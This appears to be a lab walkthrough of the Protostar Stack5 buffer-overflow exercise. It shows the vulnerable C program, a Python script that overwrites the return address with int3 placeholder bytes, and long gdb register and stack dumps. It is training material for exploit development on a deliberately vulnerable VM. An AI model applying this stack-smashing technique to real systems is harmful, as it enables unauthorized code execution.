





#### 14. Buffer Overflow with Shellcode

`Stack5` is a standard buffer overflow, this time introducing shellcode.

- This level is at `/opt/protostar/bin/stack5`

- Hints
	- At this point in time, it might be easier to use someone elses shellcode
	- If debugging the shellcode, use `\xcc` `(int3)` to stop the program executing and return to the debugger
	- Remove the `int3s` once your shellcode is done.

`stack5.c`
	
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

`pattern.py`

```python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print padding
```

```sh
user@protostar:/tmp$ python pattern.py > pattern
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) run
Starting program: /opt/protostar/bin/stack5
AAAA
0x80483da <main+22>:	ret
0xbffff79c:	0xb7eadc76	0x00000001	0xbffff844	0xbffff84c
0xbffff7ac:	0xb7fe1848	0xbffff800	0xffffffff	0xb7ffeff4

Breakpoint 1, 0x080483da in main (argc=134513604, argv=0x1) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) si
0xb7eadc76 <__libc_start_main+230>:	mov    DWORD PTR [esp],eax
0xbffff7a0:	0x00000001	0xbffff844	0xbffff84c	0xb7fe1848
0xbffff7b0:	0xbffff800	0xffffffff	0xb7ffeff4	0x08048232
__libc_start_main (main=0x80483c4 <main>, argc=1, ubp_av=0xbffff844,
    init=0x80483f0 <__libc_csu_init>, fini=0x80483e0 <__libc_csu_fini>,
    rtld_fini=0xb7ff1040 <_dl_fini>, stack_end=0xbffff83c) at libc-start.c:260
260	libc-start.c: No such file or directory.
	in libc-start.c
(gdb) info registers
eax            0xbffff750	-1073744048
ecx            0xbffff750	-1073744048
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff7a0	0xbffff7a0
ebp            0xbffff818	0xbffff818
esi            0x0	0
edi            0x0	0
eip            0xb7eadc76	0xb7eadc76 <__libc_start_main+230>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```







`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack('I', 0xbffff7a0)
payload = "\xCC"*4

print padding+eip+payload
```

```sh
user@protostar:/tmp$ python exploit.py > exploit
```

```sh
(gdb) run < /tmp/exploit
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit
0x80483da <main+22>:	ret
0xbffff79c:	0xbffff7a0	0xcccccccc	0xbffff800	0xbffff84c
0xbffff7ac:	0xb7fe1848	0xbffff800	0xffffffff	0xb7ffeff4

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
11	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff7a1:	int3
0xbffff7a0:	0xcccccccc	0xbffff800	0xbffff84c	0xb7fe1848
0xbffff7b0:	0xbffff800	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7a1 in ?? ()
(gdb)
```

```sh
user@protostar:/tmp$ cat exploit | /opt/protostar/bin/stack5
Trace/breakpoint trap
user@protostar:/tmp$
```

```sh
user@protostar:/tmp$ python exploit.py | /opt/protostar/bin/stack5
Trace/breakpoint trap
user@protostar:/tmp$
```

```sh
user@protostar:/tmp$ gdb /opt/protostar/bin/stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) r < exploit
Starting program: /opt/protostar/bin/stack5 < exploit

Program received signal SIGILL, Illegal instruction.
0xbffff7b2 in ?? ()
(gdb)
```

From `/tmp`

```sh
(gdb) x/1000s $esp
0xbffff7b0:	 "p\367\377\277p\367\377\277p\367\377\277p\367\377\277\314\314\314", <incomplete sequence \314>
0xbffff7c5:	 "\370\377\277l\370\377\277H\030\376\267 \370\377\277\377\377\377\377\364\357\377\267\062\202\004\b\001"
0xbffff7e2:	 ""
0xbffff7e3:	 ""
0xbffff7e4:	 " \370\377\277&\006\377\267\260\372\377\267(\033\376\267\364\177", <incomplete sequence \375\267>
0xbffff7f9:	 ""
0xbffff7fa:	 ""
0xbffff7fb:	 ""
0xbffff7fc:	 ""
0xbffff7fd:	 ""
0xbffff7fe:	 ""
0xbffff7ff:	 ""
0xbffff800:	 "8\370\377\277\334\313H\352\314=\037\300"
0xbffff80d:	 ""
0xbffff80e:	 ""
0xbffff80f:	 ""
0xbffff810:	 ""
0xbffff811:	 ""
0xbffff812:	 ""
0xbffff813:	 ""
0xbffff814:	 ""
0xbffff815:	 ""
0xbffff816:	 ""
0xbffff817:	 ""
0xbffff818:	 "\001"
0xbffff81a:	 ""
0xbffff81b:	 ""
0xbffff81c:	 "\020\203\004\b"
0xbffff821:	 ""
0xbffff822:	 ""
0xbffff823:	 ""
0xbffff824:	 "\020b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff832:	 ""
0xbffff833:	 ""
0xbffff834:	 "\020\203\004\b"
0xbffff839:	 ""
0xbffff83a:	 ""
0xbffff83b:	 ""
0xbffff83c:	 "1\203\004\bă\004\b\001"
0xbffff846:	 ""
0xbffff847:	 ""
0xbffff848:	 "d\370\377\277\360\203\004\b\340\203\004\b@\020\377\267\\\370\377\277\370\370\377\267\001"
0xbffff862:	 ""
0xbffff863:	 ""
0xbffff864:	 "~\371\377\277"
---Type <return> to continue, or q <return> to quit---
0xbffff869:	 ""
0xbffff86a:	 ""
0xbffff86b:	 ""
0xbffff86c:	 "\230\371\377\277\242\371\377\277\302\371\377\277\326\371\377\277\336\371\377\277\356\371\377\277\001\372\377\277\026\372\377\277#\372\377\277\062\372\377\277>\372\377\277R\372\377\277\220\372\377\277\241\372\377\277\221\377\377\277\237\377\377\277\250\377\377\277\331\377\377\277"
0xbffff8b5:	 ""
0xbffff8b6:	 ""
0xbffff8b7:	 ""
0xbffff8b8:	 " "
0xbffff8ba:	 ""
0xbffff8bb:	 ""
0xbffff8bc:	 "\024$\376\267!"
0xbffff8c2:	 ""
0xbffff8c3:	 ""
0xbffff8c4:	 ""
0xbffff8c5:	 " \376\267\020"
0xbffff8ca:	 ""
0xbffff8cb:	 ""
0xbffff8cc:	 "\377\373\253\017\006"
0xbffff8d2:	 ""
0xbffff8d3:	 ""
0xbffff8d4:	 ""
0xbffff8d5:	 "\020"
0xbffff8d7:	 ""
0xbffff8d8:	 "\021"
0xbffff8da:	 ""
0xbffff8db:	 ""
0xbffff8dc:	 "d"
0xbffff8de:	 ""
0xbffff8df:	 ""
0xbffff8e0:	 "\003"
0xbffff8e2:	 ""
0xbffff8e3:	 ""
0xbffff8e4:	 "4\200\004\b\004"
0xbffff8ea:	 ""
0xbffff8eb:	 ""
0xbffff8ec:	 " "
0xbffff8ee:	 ""
0xbffff8ef:	 ""
0xbffff8f0:	 "\005"
0xbffff8f2:	 ""
0xbffff8f3:	 ""
0xbffff8f4:	 "\a"
0xbffff8f6:	 ""
0xbffff8f7:	 ""
0xbffff8f8:	 "\a"
0xbffff8fa:	 ""
0xbffff8fb:	 ""
---Type <return> to continue, or q <return> to quit---
0xbffff8fc:	 ""
0xbffff8fd:	 "0\376\267\b"
0xbffff902:	 ""
0xbffff903:	 ""
0xbffff904:	 ""
0xbffff905:	 ""
0xbffff906:	 ""
0xbffff907:	 ""
0xbffff908:	 "\t"
0xbffff90a:	 ""
0xbffff90b:	 ""
0xbffff90c:	 "\020\203\004\b\v"
0xbffff912:	 ""
0xbffff913:	 ""
0xbffff914:	 "\351\003"
0xbffff917:	 ""
0xbffff918:	 "\f"
0xbffff91a:	 ""
0xbffff91b:	 ""
0xbffff91c:	 "\351\003"
0xbffff91f:	 ""
0xbffff920:	 "\r"
0xbffff922:	 ""
0xbffff923:	 ""
0xbffff924:	 "\351\003"
0xbffff927:	 ""
0xbffff928:	 "\016"
0xbffff92a:	 ""
0xbffff92b:	 ""
0xbffff92c:	 "\351\003"
0xbffff92f:	 ""
0xbffff930:	 "\027"
0xbffff932:	 ""
0xbffff933:	 ""
0xbffff934:	 "\001"
0xbffff936:	 ""
0xbffff937:	 ""
0xbffff938:	 "\031"
0xbffff93a:	 ""
0xbffff93b:	 ""
0xbffff93c:	 "[\371\377\277\037"
0xbffff942:	 ""
0xbffff943:	 ""
0xbffff944:	 "\342\377\377\277\017"
0xbffff94a:	 ""
0xbffff94b:	 ""
0xbffff94c:	 "k\371\377\277"
0xbffff951:	 ""
0xbffff952:	 ""
---Type <return> to continue, or q <return> to quit---
0xbffff953:	 ""
0xbffff954:	 ""
0xbffff955:	 ""
0xbffff956:	 ""
0xbffff957:	 ""
0xbffff958:	 ""
0xbffff959:	 ""
0xbffff95a:	 ""
0xbffff95b:	 "\324c\353\367\245ӊQ\213\356@:\205\034\326\365i686"
0xbffff970:	 ""
0xbffff971:	 ""
0xbffff972:	 ""
0xbffff973:	 ""
0xbffff974:	 ""
0xbffff975:	 ""
0xbffff976:	 ""
0xbffff977:	 ""
0xbffff978:	 ""
0xbffff979:	 ""
0xbffff97a:	 ""
0xbffff97b:	 ""
0xbffff97c:	 ""
0xbffff97d:	 ""
0xbffff97e:	 "/opt/protostar/bin/stack5"
0xbffff998:	 "USER=user"
0xbffff9a2:	 "SSH_CLIENT=192.168.1.5 57708 22"
0xbffff9c2:	 "MAIL=/var/mail/user"
0xbffff9d6:	 "SHLVL=1"
0xbffff9de:	 "HOME=/home/user"
0xbffff9ee:	 "SSH_TTY=/dev/pts/0"
0xbffffa01:	 "LC_CTYPE=en_US.UTF-8"
0xbffffa16:	 "LOGNAME=user"
0xbffffa23:	 "_=/usr/bin/gdb"
0xbffffa32:	 "COLUMNS=101"
0xbffffa3e:	 "TERM=xterm-256color"
0xbffffa52:	 "PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
0xbffffa90:	 "LANG=en_US.UTF-8"
0xbffffaa1:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffffb69:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffc31:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35"...
0xbffffcf9:	 ":*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.ogm=01;35:*.mp4=01;35:*.m4"...
---Type <return> to continue, or q <return> to quit---
0xbffffdc1:	 "v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*."...
0xbffffe89:	 "yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;3"...
0xbfffff51:	 "6:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbfffff91:	 "SHELL=/bin/sh"
0xbfffff9f:	 "PWD=/tmp"
0xbfffffa8:	 "SSH_CONNECTION=192.168.1.5 57708 192.168.1.25 22"
0xbfffffd9:	 "LINES=50"
0xbfffffe2:	 "/opt/protostar/bin/stack5"
0xbffffffc:	 ""
0xbffffffd:	 ""
0xbffffffe:	 ""
0xbfffffff:	 ""
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
```

From `/opt/protostar/bin`

```sh
(gdb) x/1000s $esp
0xbffff7a0:	 "\314\314\314", <incomplete sequence \314>
0xbffff7a5:	 "\370\377\277L\370\377\277H\030\376\267"
0xbffff7b1:	 "\370\377\277\377\377\377\377\364\357\377\267\062\202\004\b\001"
0xbffff7c2:	 ""
0xbffff7c3:	 ""
0xbffff7c4:	 ""
0xbffff7c5:	 "\370\377\277&\006\377\267\260\372\377\267(\033\376\267\364\177", <incomplete sequence \375\267>
0xbffff7d9:	 ""
0xbffff7da:	 ""
0xbffff7db:	 ""
0xbffff7dc:	 ""
0xbffff7dd:	 ""
0xbffff7de:	 ""
0xbffff7df:	 ""
0xbffff7e0:	 "\030\370\377\277B\236\020\277R\250G\225"
0xbffff7ed:	 ""
0xbffff7ee:	 ""
0xbffff7ef:	 ""
0xbffff7f0:	 ""
0xbffff7f1:	 ""
0xbffff7f2:	 ""
0xbffff7f3:	 ""
0xbffff7f4:	 ""
0xbffff7f5:	 ""
0xbffff7f6:	 ""
0xbffff7f7:	 ""
0xbffff7f8:	 "\001"
0xbffff7fa:	 ""
0xbffff7fb:	 ""
0xbffff7fc:	 "\020\203\004\b"
0xbffff801:	 ""
0xbffff802:	 ""
0xbffff803:	 ""
0xbffff804:	 "\020b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff812:	 ""
0xbffff813:	 ""
0xbffff814:	 "\020\203\004\b"
0xbffff819:	 ""
0xbffff81a:	 ""
0xbffff81b:	 ""
0xbffff81c:	 "1\203\004\bă\004\b\001"
0xbffff826:	 ""
0xbffff827:	 ""
0xbffff828:	 "D\370\377\277\360\203\004\b\340\203\004\b@\020\377\267<\370\377\277\370\370\377\267\001"
0xbffff842:	 ""
0xbffff843:	 ""
0xbffff844:	 "d\371\377\277"
---Type <return> to continue, or q <return> to quit---
0xbffff849:	 ""
0xbffff84a:	 ""
0xbffff84b:	 ""
0xbffff84c:	 "~\371\377\277\210\371\377\277\250\371\377\277\274\371\377\277\304\371\377\277\320\371\377\277\340\371\377\277\363\371\377\277\b\372\377\277\025\372\377\277$\372\377\277\060\372\377\277D\372\377\277\202\372\377\277\223\372\377\277\203\377\377\277\221\377\377\277\250\377\377\277\331\377\377\277"
0xbffff899:	 ""
0xbffff89a:	 ""
0xbffff89b:	 ""
0xbffff89c:	 " "
0xbffff89e:	 ""
0xbffff89f:	 ""
0xbffff8a0:	 "\024$\376\267!"
0xbffff8a6:	 ""
0xbffff8a7:	 ""
0xbffff8a8:	 ""
0xbffff8a9:	 " \376\267\020"
0xbffff8ae:	 ""
0xbffff8af:	 ""
0xbffff8b0:	 "\377\373\253\017\006"
0xbffff8b6:	 ""
0xbffff8b7:	 ""
0xbffff8b8:	 ""
0xbffff8b9:	 "\020"
0xbffff8bb:	 ""
0xbffff8bc:	 "\021"
0xbffff8be:	 ""
0xbffff8bf:	 ""
0xbffff8c0:	 "d"
0xbffff8c2:	 ""
0xbffff8c3:	 ""
0xbffff8c4:	 "\003"
0xbffff8c6:	 ""
0xbffff8c7:	 ""
0xbffff8c8:	 "4\200\004\b\004"
0xbffff8ce:	 ""
0xbffff8cf:	 ""
0xbffff8d0:	 " "
0xbffff8d2:	 ""
0xbffff8d3:	 ""
0xbffff8d4:	 "\005"
0xbffff8d6:	 ""
0xbffff8d7:	 ""
0xbffff8d8:	 "\a"
0xbffff8da:	 ""
0xbffff8db:	 ""
0xbffff8dc:	 "\a"
0xbffff8de:	 ""
---Type <return> to continue, or q <return> to quit---
0xbffff8df:	 ""
0xbffff8e0:	 ""
0xbffff8e1:	 "0\376\267\b"
0xbffff8e6:	 ""
0xbffff8e7:	 ""
0xbffff8e8:	 ""
0xbffff8e9:	 ""
0xbffff8ea:	 ""
0xbffff8eb:	 ""
0xbffff8ec:	 "\t"
0xbffff8ee:	 ""
0xbffff8ef:	 ""
0xbffff8f0:	 "\020\203\004\b\v"
0xbffff8f6:	 ""
0xbffff8f7:	 ""
0xbffff8f8:	 "\351\003"
0xbffff8fb:	 ""
0xbffff8fc:	 "\f"
0xbffff8fe:	 ""
0xbffff8ff:	 ""
0xbffff900:	 "\351\003"
0xbffff903:	 ""
0xbffff904:	 "\r"
0xbffff906:	 ""
0xbffff907:	 ""
0xbffff908:	 "\351\003"
0xbffff90b:	 ""
0xbffff90c:	 "\016"
0xbffff90e:	 ""
0xbffff90f:	 ""
0xbffff910:	 "\351\003"
0xbffff913:	 ""
0xbffff914:	 "\027"
0xbffff916:	 ""
0xbffff917:	 ""
0xbffff918:	 "\001"
0xbffff91a:	 ""
0xbffff91b:	 ""
0xbffff91c:	 "\031"
0xbffff91e:	 ""
0xbffff91f:	 ""
0xbffff920:	 "K\371\377\277\037"
0xbffff926:	 ""
0xbffff927:	 ""
0xbffff928:	 "\342\377\377\277\017"
0xbffff92e:	 ""
0xbffff92f:	 ""
0xbffff930:	 "[\371\377\277"
0xbffff935:	 ""
---Type <return> to continue, or q <return> to quit---
0xbffff936:	 ""
0xbffff937:	 ""
0xbffff938:	 ""
0xbffff939:	 ""
0xbffff93a:	 ""
0xbffff93b:	 ""
0xbffff93c:	 ""
0xbffff93d:	 ""
0xbffff93e:	 ""
0xbffff93f:	 ""
0xbffff940:	 ""
0xbffff941:	 ""
0xbffff942:	 ""
0xbffff943:	 ""
0xbffff944:	 ""
0xbffff945:	 ""
0xbffff946:	 ""
0xbffff947:	 ""
0xbffff948:	 ""
0xbffff949:	 ""
0xbffff94a:	 ""
0xbffff94b:	 "\006j\343;\357\177\240\236\352L\243\360\253i*3i686"
0xbffff960:	 ""
0xbffff961:	 ""
0xbffff962:	 ""
0xbffff963:	 ""
0xbffff964:	 "/opt/protostar/bin/stack5"
0xbffff97e:	 "USER=user"
0xbffff988:	 "SSH_CLIENT=192.168.1.5 57711 22"
0xbffff9a8:	 "MAIL=/var/mail/user"
0xbffff9bc:	 "SHLVL=1"
0xbffff9c4:	 "OLDPWD=/tmp"
0xbffff9d0:	 "HOME=/home/user"
0xbffff9e0:	 "SSH_TTY=/dev/pts/1"
0xbffff9f3:	 "LC_CTYPE=en_US.UTF-8"
0xbffffa08:	 "LOGNAME=user"
0xbffffa15:	 "_=/usr/bin/gdb"
0xbffffa24:	 "COLUMNS=101"
0xbffffa30:	 "TERM=xterm-256color"
0xbffffa44:	 "PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
0xbffffa82:	 "LANG=en_US.UTF-8"
